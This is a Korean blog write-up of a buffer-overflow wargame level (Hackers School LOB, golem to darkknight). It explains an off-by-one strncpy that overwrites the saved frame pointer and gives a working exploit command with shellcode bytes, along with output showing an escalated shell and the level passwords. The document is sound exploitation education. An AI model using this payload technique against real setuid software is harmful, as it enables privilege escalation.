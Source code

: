 ```yaml
---
layout: post
title: "[Wargame] 해커스쿨 BoF LEVEL12 (Golem -> Darkknight) : Sfp"
date: 2015-11-19 22:03:10
category: wargame
tags:  bof 
---
```


- id = golem
- pw = cup of coffee

<!-- more -->

## 1. 문제 : darkknight.c



```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - darkknight
        - FPO
*/

#include <stdio.h>
#include <stdlib.h>

void problem_child(char *src)
{
        char buffer[40];
        strncpy(buffer, src, 41);
        printf("%s\n", buffer);
}

main(int argc, char *argv[])
{
        if(argc<2){
                printf("argv error\n");
                exit(0);
        }

        problem_child(argv[1]);
}
```

일단 가장 큰 차이점은 main() 함수안에서 problem_child() 라는 함수 안에서 buffer[40] 에 대한 strncpy(buffer, src, 41) 가 이루어진다. 이전에는 한 함수 안에서 stack 에 저장된 return address 를 변조하도록 공격하였는데, 이번에는 하나의 함수에서 이전에 저장한 stack frame register 를 변조하여, 이를 복구하는 이전 caller function 에서 복구시에 원하는 shellcode 위치로 jump 하도록 해야한다. 이를 위해서는 frame register, $ebp, 함수 preamble, postamble 등에 대해서 잘 이해해야한다.

### 1.3 main()

```
0x804846c <main>:       push   %ebp
0x804846d <main+1>:     mov    %esp,%ebp
0x804846f <main+3>:     cmpl   $0x1,0x8(%ebp)
0x8048473 <main+7>:     jg     0x8048490 <main+36>
0x8048475 <main+9>:     push   $0x8048504
0x804847a <main+14>:    call   0x8048354 <printf>
0x804847f <main+19>:    add    $0x4,%esp
0x8048482 <main+22>:    push   $0x0
0x8048484 <main+24>:    call   0x8048364 <exit>
0x8048489 <main+29>:    add    $0x4,%esp
0x804848c <main+32>:    lea    0x0(%esi,1),%esi
0x8048490 <main+36>:    mov    0xc(%ebp),%eax
0x8048493 <main+39>:    add    $0x4,%eax
0x8048496 <main+42>:    mov    (%eax),%edx
0x8048498 <main+44>:    push   %edx
0x8048499 <main+45>:    call   0x8048440 <problem_child>
0x804849e <main+50>:    add    $0x4,%esp
0x80484a1 <main+53>:    leave
0x80484a2 <main+54>:    ret
0x80484a3 <main+55>:    nop
0x80484a4 <main+56>:    nop
```

### 1.4 problem_child()

```
0x8048440 <problem_child>:      push   %ebp
0x8048441 <problem_child+1>:    mov    %esp,%ebp
0x8048443 <problem_child+3>:    sub    $0x28,%esp
0x8048446 <problem_child+6>:    push   $0x29
0x8048448 <problem_child+8>:    mov    0x8(%ebp),%eax
0x804844b <problem_child+11>:   push   %eax
0x804844c <problem_child+12>:   lea    0xffffffd8(%ebp),%eax
0x804844f <problem_child+15>:   push   %eax
0x8048450 <problem_child+16>:   call   0x8048374 <strncpy>
0x8048455 <problem_child+21>:   add    $0xc,%esp
0x8048458 <problem_child+24>:   lea    0xffffffd8(%ebp),%eax
0x804845b <problem_child+27>:   push   %eax
0x804845c <problem_child+28>:   push   $0x8048500
0x8048461 <problem_child+33>:   call   0x8048354 <printf>
0x8048466 <problem_child+38>:   add    $0x8,%esp
0x8048469 <problem_child+41>:   leave
0x804846a <problem_child+42>:   ret
0x804846b <problem_child+43>:   nop
```

## 2 함수 진입 & 복귀

이번 문제 풀이에서 가장 중요한 것은 기존 Frame Register가 어떻게 쓰이는 것을 이해하는 것이다. 기존과 달리 frame register를 이용한 공격하게 된다.

### 2.1 함수 내부 동작 : [A brief introduction to x86 calling conventions](http://codearcana.com/posts/2013/05/21/a-brief-introduction-to-x86-calling-conventions.html)

```
my_function:
  push %ebp              # Preamble: save the old %ebp.
  movl %esp, %ebp        # Point %ebp to the saved %ebp and the new stack frame.

  subl $0x4, %esp        # Reserve space for local variables.

  movl 0x8(%ebp), %eax   
  movl %eax, -0x4(%ebp)  # Move argument into local variable.

  # Function body. 

  addl $0x4, %esp        # Reclaim space used by local variables.

  leave                  # Epilogue: restore the old %ebp.
  ret
```

### 2.2 함수 진입

```
push %ebp             # Preamble: save the old %ebp.
mov %esp, %ebp         # Point %ebp to the saved %ebp and the new stack frame.
```


### 2.3 함수 jump

ARM 에서는 함수 jump 시에 return address 를 함수 prologue 에서 push rX, .., $lr stack push 를 해주었던 것 같은데, x86에서는 call function 이 알아서 해주는 듯 하다.

```
call function
```

### 2.4 leave() : [@stackoverflow: Why does leave do “mov esp,ebp” in x86 assembly?](http://stackoverflow.com/questions/5474355/why-does-leave-do-mov-esp-ebp-in-x86-assembly)

```
mov esp,ebp
pop ebp
```

### 2.5 ret()

```
pop eip
```

### 2.6 [x86 Call/Return Protocol](http://pages.cs.wisc.edu/~cs354-1/Handouts/Handout-CallReturn.pdf)

![img](https://raw.githubusercontent.com/humb1ec0ding/humb1ec0ding-etc/579f275f0c88410af2116ee22a08a1b572e4081b/2015/11/stage12-1.png)

```
| <argument 2>       |
| <argument 1>       |
| <return address>   |
| <old ebp>          | <= %ebp
| <local var 1>      |
| <local var 2>      | <= %esp
```

## 2. 공격

### 2.1 공격 방법 고민

여기서 중요한 점은 함수를 복귀시에 그전에 stack 에 저장해둔 saved $ebp 와 $lr 를 꺼내기 위하여 $esp를 saved $ebp 로 설정한 다음에 pop $ebp 하여 $ebp 를 설정하고 나서, 그 다음 word 에 있는 $lr 를 pop 하여 return 한다는 것이다. 즉, saved $ebp를 변조하면 함수 복귀 시의 주소 역시 바꿀 수 있다는 것이다.

### 2.2 공격

problem_child() 함수 안에서 buffer copy 시에 saved $ebp 의 마지막 한 바이트 값을 바꿀 수 있는데, 이는 main() 함수로 복귀한 이후에 saved $ebp 복원하는 과정에서 이 값으로 $esp 로 설정을 하여 pop 하여 $ebp 설정하고 (leave) 이후에 ret 시에 다음 +4 bytes 자리에 있는 값을 $eip로 설정하여 복귀하게 된다. 따라서 $ebp 값의 다음 word 자리의 값이 shellcode 가 위치한 두 번째 parameter 값이 있는 위치가 되도록 0xbffffdc8 로 선택하여 exploit 작성하였다.

![img](https://raw.githubusercontent.com/humb1ec0ding/humb1ec0ding-etc/master/2015/11/stage12-3.png)

```bash
./darkknight `python -c 'print "\xc8\xfd\xff\xbf" * 10 + "\x04"'`  `python -c 'print "\x90"*100 + "\x68\xf9\xbf\x0f\x40\x68\xe0\x91\x03\x40\xb8\xe0\x8a\x05\x40\x50\xc3"'`    
Èý ¿Èý ¿Èý ¿Èý ¿Èý ¿Èý ¿Èý ¿Èý ¿Èý ¿Èý ¿ü ¿
                                          ý ¿Xü ¿Ë      @
bash$   
bash$ id
uid=511(golem) gid=511(golem) euid=512(darkknight) egid=512(darkknight) groups=511(golem)
```

## 3. 다음 단계 정보

```bash
bash$ id
uid=511(golem) gid=511(golem) euid=512(darkknight) egid=512(darkknight) groups=511(golem)
bash$ my-pass
euid = 512
new attacker
```

## 4. 의문점

사실 아래가 처음에 공격 시도한 exploit 인데, 앞의 성공한 경우 거의 동일하다. 차이가 있다면 ret 시 설정되는 값 위치를 특정 위치 하나만 설정하고, 나머지는 NOP Sled 을 깔은 것인데, 이것이 동작하지 않는다는 것은… gdb 실행한 경우와 실제 실행하는 경우의 stack 이 조금 다르게 잡히기 때문에 복귀 주소가 잘못되는 듯하다.

이렇게 두 경우의 stack 위치가 달라지는 경우에 어떻게 처리를 해야할지 모르겠다. 일단은 NOP Sled이나 특정값을 반복시켜서 stack 위치가 약간 틀어져서 동작하도록 해야할 듯 하다.

![img](https://raw.githubusercontent.com/humb1ec0ding/humb1ec0ding-etc/master/2015/11/stage12-2.png)

```bash
./darkknight `python -c 'print "\x90"*20 + "\xc8\xfd\xff\xbf" * 4 + "\x04"*5'`  `python -c 'print "\x90"*100 + "\x68\xf9\xbf\x0f\x40\x68\xe0\x91\x03\x40\xb8\xe0\x8a\x05\x40\x50\xc3"'`
Èý ¿Èý ¿Èý ¿Èý ¿ü ¿
                  ý ¿Xü ¿Ë      @
Segmentation fault
```








